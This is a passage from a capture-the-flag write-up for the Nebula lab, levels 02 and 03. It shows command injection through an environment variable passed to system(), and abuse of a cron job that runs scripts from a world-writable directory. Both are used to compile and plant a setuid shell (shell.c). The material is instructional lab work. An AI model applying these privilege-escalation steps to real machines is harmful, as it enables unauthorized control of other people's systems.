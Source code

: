 ```bash
about to call system("/bin/echo bob; id;# is cool")
bob
uid=997(flag02) gid=1003(level02) groups=997(flag02),1003(level02)

level02@nebula:/home/flag02$ USER="bob; gcc /var/tmp/shell.c -o /var/tmp/flag02; chmod 4777 /var/tmp/flag02;#" && ./flag02
about to call system("/bin/echo bob; gcc /var/tmp/shell.c -o /var/tmp/flag02; chmod 4777 /var/tmp/flag02;# is cool")
bob

level02@nebula:/home/flag02$ /var/tmp/flag02
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## level03

[Level03's Description](https://exploit-exercises.com/nebula/level03/):

> Check the home directory of flag03 and take note of the files there.
> There is a crontab that is called every couple of minutes.

Logging in as `level03`, we find a directory and a `sh` script:

```bash
level03@nebula:~$ cd ~flag03
level03@nebula:/home/flag03$ ls -lh
total 512
drwxrwxrwx 2 flag03 flag03  3 2012-08-18 05:24 writable.d
-rwxr-xr-x 1 flag03 flag03 98 2011-11-20 21:22 writable.sh

level03@nebula:/home/flag03$ cat writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

With the mention of a cronjob, I assumed the `writable.sh` script was being run. From the source of the script we can see that everything in `/home/flag03/writable.d/` will have a ulimit set so that processes don’t take more than 5 seconds, and be executed using `bash -x`. Once done, the file is removed. Easy to exploit.

So, to solve level03:

```bash
level03@nebula:/home/flag03$ vim /var/tmp/flag03.sh
level03@nebula:/home/flag03$ cat /var/tmp/flag03.sh
#!/bin/sh
gcc /var/tmp/shell.c -o /var/tmp/flag03
chmod 4777 /var/tmp/flag03

level03@nebula:/home/flag03$ cat /var/tmp/shell.c
#include<stdio.h>

int main(void) {
    setresuid(geteuid(), geteuid(), geteuid());
    system("/bin/sh");
    return 0;
}

level03@nebula:/home/flag03$ cp /var/tmp/flag03.sh /home/flag03/writable.d/

level03@nebula:/home/flag03$ # wait some time for the cronjob
```